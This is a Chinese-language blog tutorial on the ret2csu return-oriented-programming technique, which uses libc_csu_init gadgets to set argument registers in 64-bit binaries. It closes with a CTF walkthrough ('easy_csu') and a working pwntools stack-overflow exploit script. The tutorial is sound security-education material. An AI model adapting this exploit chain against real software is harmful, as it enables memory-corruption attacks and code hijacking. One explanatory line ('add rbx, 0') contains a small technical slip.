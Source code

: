 ```yaml
---
title: ret2csu - 万能Gadgets
date: 2020-06-15 16:09:23
categories:
- Theories
- Assembler
tags:
- PWN
- ROP
---
```

## Introduction

2018年blackhat大会提出了ret2csu，即通过libc_csu_init中两个特殊的gadgets实现64位程序的万能传参。

<!-- more -->

libc_csu_init函数功能是对libc进行初始化操作，一般程序都会调用libc函数，所以这个函数基本上都存在，故而称为万能gadgets。

![](/img/Useful-Gadgets/Useful-Gadgets1.png)

通过汇编代码可以发现，利用这两个gadgets可以依次实现rbx、rbp、r12、rdx、rsi、edi寄存器的赋值。

在x86的程序中，函数的前6个参数的赋值是依次通过rdi、rsi、rdx、rcx、r8、r9寄存器实现。所以上面我们控制的寄存器中，r12、rdx、rsi和edi寄存器更加吸引我们的注意力，因为他们分别保存着将要调用的函数的指针的地址、第三个参数、第二个参数和第一个参数。

而rbx和rbp寄存器我们也不能忽视，他们的值必须分别被置为0和1。因为在gadget2中，最后一个指令`call [r12 + rbx*8]`，将rbx置0则指令将变成`call [r12]`，方便传参。此外需要注意的是，r12中设置的应该为要调用的函数的指针的地址，即got地址而不是plt地址。

因为jne指令与je指令正好相反，只有当零标志ZF=0时跳转，ZF=1时顺序执行下一条指令，即不相等时转移。前一条指令`cmp rbx，rbp`中rbx再执行完`add rbx，0`之后必然值为1。所以为了不跳转，必须将rbp的值也置为1，使得汇编指令能够顺序执行而不是跳转到1110行再次执行call指令，这样可能会造成错误。

## Example：easy_csu

### Step 1

程序运行截图：

![](/img/Useful-Gadgets/Useful-Gadgets2.png)

checksec：64位程序

![](/img/Useful-Gadgets/Useful-Gadgets3.png)

### Step 2

把程序丢到hopper中，发现main函数中read函数存在溢出漏洞：

![](/img/Useful-Gadgets/Useful-Gadgets4.png)

看一下vul函数，发现只要调用vul函数，且将vul函数的第3个参数设为3即可：

![](/img/Useful-Gadgets/Useful-Gadgets5.png)

由于这是64位的程序，所以通过寄存器传参，但是通过ROPgadget并没有发现可以用的gadgets：

![](/img/Useful-Gadgets/Useful-Gadgets6.png)

于是我们就想到万能gadgets：

![](/img/Useful-Gadgets/Useful-Gadgets7.png)

所以可以构造这样一个ROP链：首先跳转到loc_4011fe即gadget1给寄存器赋值，然后ret到gadget2将参数转移到需要的寄存器中去，但是gadget2运行后会再次执行一遍gadget1，这样会使得栈空间提升8*7总共56字节，所以我们还需要padding56个字节，然后才能覆盖ret到需要的地址上去。

在我们给r12赋值的时候，刚开始的想法是直接填上vul函数的地址。但是根据上面关于ret2csu的介绍，r12中应该置为vul函数指针的地址。所以我们需要找到一个指针，再劫持这个指针指向vul函数......这也太麻烦了，而且这样一来题目的初衷和重心就变了。

为了解决这个问题，我们选择一个简单的办法。用init_array_start函数的指针来跳过gadget2中的那条call指令。init_array_start函数是ELF程序的一个初始化函数，运行它不会对栈空间造成影响，可以说是用于跳过call指令的最佳选择。

### Step 3

于是最终的EXP就是这样的：

```Python
* from pwn import *
* 
* sh = process('./easy_csu')
* elf = ELF('easy_csu')
* 
* gadget1 = 0x401202
* gadget2 = 0x4011e8
* 
* init_addr = elf.symbols['__init_array_start']
* vul_addr = elf.symbols['vul']
* 
* payload = 'a' * (0x20 + 0x8)
* payload += p64(gadget1) + p64(0) + p64(1) + p64(init_addr) + p64(0) + p64(0)+ p64(3)
* payload += p64(gadget2) + 'a' * 56
* payload += p64(vul_addr)
* 
* sh.sendline(payload)
* 
* sh.interactive()
* sh.close()
```

EXP运行结果图：

![](/img/Useful-Gadgets/Useful-Gadgets8.png)